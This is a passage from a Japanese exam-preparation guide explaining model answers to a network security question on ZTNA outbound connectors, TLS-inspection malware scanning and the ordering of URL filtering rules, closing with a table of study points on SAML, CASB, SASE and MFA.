通常、外から社内サーバに入れるにはFWでインバウンドを開ける必要がある。表3項番6は、社内に置いた**Pコネクタ**が「**PコネクタからPサービスに接続を開始する**」（注2）ため、**すべての通信が社内発のアウトバウンド**で成立する。よってFWに受信許可ルールを足さずに済む。

**リモートアクセス機能（ZTNA）の成立原理**

```mermaid
flowchart LR
  RPC["R-PC<br/>従業員宅"] -->|"アウトバウンド"| PS["Pサービス"]
  PK["Pコネクタ<br/>本社に設置"] -->|"社内から外へ<br/>接続を開始する"| PS
  PK --> SRV["本社のサーバ"]
  FW["UTMのファイアウォール<br/>インターネットからの通信を<br/>許可するルールは追加しない"] -.->|"インバウンドを開けずに済む"| PK
  style PK fill:#aaf
  style FW fill:#faa
```

**i＝項番2 マルウェアスキャン機能（要件4）**
要件4「HTTPS通信の内容をマルウェアスキャンする」＝設問2(1)で見たTLS復号型のスキャン。そのまま項番2。

**+α**：項番6の考え方は **ZTNA（Zero Trust Network Access）／リバースコネクト**そのもの。
- VPNのように「ネットワークに参加させる」のではなく、**アプリケーション単位でアクセスを仲介**するため、侵入後のラテラルムーブメントを抑えられる。
- インバウンドのポートを開けないので、**VPN装置の脆弱性を突かれる**という近年の主要な侵入経路を減らせる。
- 一方で**Pサービス（クラウド）が単一障害点**になる点は、SASE共通の弱点として押さえておく。

---

### 設問3(5)　表5 空欄あ・い、j〜o（URLフィルタリングの設定）

> **(5)** 表5中の **あ**、**い** に入れる適切な数字、**j** 〜 **o** に入れる適切な字句を答えよ。

**解答**

| 番号 | 表3の項番 | URLカテゴリ又はURL            | 利用者ID                            | アクション  |
| ---- | --------- | ----------------------------- | ----------------------------------- | ----------- |
| 1    | **あ＝4** | **j＝https://△△△-a.jp/**      | **k＝研究開発部の従業員**の利用者ID | **l＝許可** |
| 2    | **い＝3** | **m＝外部ストレージサービス** | **n＝全て**の利用者ID               | **o＝禁止** |

**要件の分解**
> 要件5：**SaaS-a以外の外部ストレージサービスへのアクセスは禁止**とする。また、**SaaS-aへのアクセスは業務で必要な最小限の利用者に限定**する。

満たすべきことは3つ。
1. SaaS-a（`https://△△△-a.jp/`）は**研究開発部だけ**許可 ← 図1注記「SaaS-aは、研究開発部の従業員が使用する」
2. SaaS-a以外の外部ストレージサービスは**全員禁止**
3. 研究開発部**以外**の従業員はSaaS-aも禁止（＝2に含めて処理する）

**なぜこの機能の使い分けになるか**

| ルール                  | 使う機能                   | 理由                                                                                                                                                                                                                    |
| ----------------------- | -------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 番号1（SaaS-aの許可）   | **項番4：URL単位**         | SaaS-aという**特定の1サイト**を切り出す必要がある。カテゴリ単位では「外部ストレージサービス」という括りしか指定できず、SaaS-aだけを取り出せない（**カテゴリに含まれるURLのリストはP社が設定する**＝自社で編集できない） |
| 番号2（それ以外の禁止） | **項番3：URLカテゴリ単位** | 世の中の外部ストレージサービスを**URLで列挙するのは不可能**。カテゴリでまとめて禁止するしかない                                                                                                                         |

**順序が決定的に重要**
注記に「**番号の小さい順に最初に一致したルールが適用される**」とある。

- 正しい順序（許可の例外 → 包括禁止）：研究開発部がSaaS-aにアクセス → 番号1に一致して**許可**。研究開発部以外がSaaS-aにアクセス → 番号1は利用者IDが合わず不一致 → 番号2に一致して**禁止**。他の外部ストレージ → 番号2で**禁止**。すべて要件どおり。
- 逆順にすると：番号1で「外部ストレージサービス／全て／禁止」が先に一致してしまい、**研究開発部のSaaS-a利用まで止まる**。

**ルールの評価順**

```mermaid
flowchart TD
  A["アクセス要求<br/>利用者ID ＋ アクセス先URL"] --> R1{"番号1　表3項番4 URL単位<br/>URL が https://△△△-a.jp/ かつ<br/>研究開発部の従業員の利用者ID"}
  R1 -->|"一致"| P["l：許可"]
  R1 -->|"不一致"| R2{"番号2　表3項番3 URLカテゴリ単位<br/>カテゴリが 外部ストレージサービス かつ<br/>全ての利用者ID"}
  R2 -->|"一致"| D["o：禁止"]
  R2 -->|"不一致"| N["以降のルールへ"]
  NOTE["順序を逆にすると番号1の包括禁止に先に一致し<br/>研究開発部のSaaS-a利用まで止まる"] -.-> R2
  style P fill:#aaf
  style D fill:#faa
  style NOTE fill:#faa
```

**+α**：これはファイアウォールやプロキシのルール設計の普遍的な原則。
- **具体的・例外的なルールを上に、包括的・デフォルトのルールを下に**書く。
- 末尾を**デフォルト拒否（ホワイトリスト方式）**にするのが安全側。本問の番号2は「外部ストレージサービス」に限った禁止だが、実務ではさらに下に全カテゴリのデフォルトルールを置く。
- **利用者IDとの組み合わせ**で判定している点にも注目。ネットワークの場所ではなく**"誰が"**で制御するのは、ゼロトラスト／ABAC（属性ベースアクセス制御）の発想。

---

### 問3の学習ポイントまとめ

| 論点                         | 押さえる要点                                                                                                     |
| ---------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| SAML                         | SP-Initiatedの流れ。IdPとSPは**直接通信せずブラウザを介する**。検証は署名・Audience・有効期限                    |
| IDaaSの送信元制限            | 認証情報が漏れても**接続元IPで止められる**。ただし在宅勤務では成立しない                                         |
| TLSインスペクション          | プライベートCAのルート証明書を**信頼されたルート証明書**として端末に導入。ピンニング・秘匿性・単一障害点が副作用 |
| CASB                         | 可視化／コンプライアンス／データセキュリティ／脅威防御。インライン型・API型・ログ分析型                          |
| SASE・ローカルブレイクアウト | 本社集約をやめ、検査機能をクラウドへ。回線ひっ迫の解消                                                           |
| ZTNA                         | 社内からの**アウトバウンド接続**で仲介し、FWにインバウンド許可を作らない                                         |
| 多要素認証の選択             | **人を縛る（SMS-OTP）か端末を縛る（クライアント証明書）か**を要件から判断する                                    |
| フィルタリング設計           | 具体的な許可を上、包括的な禁止を下。順序を逆にすると例外が潰れる                                                 |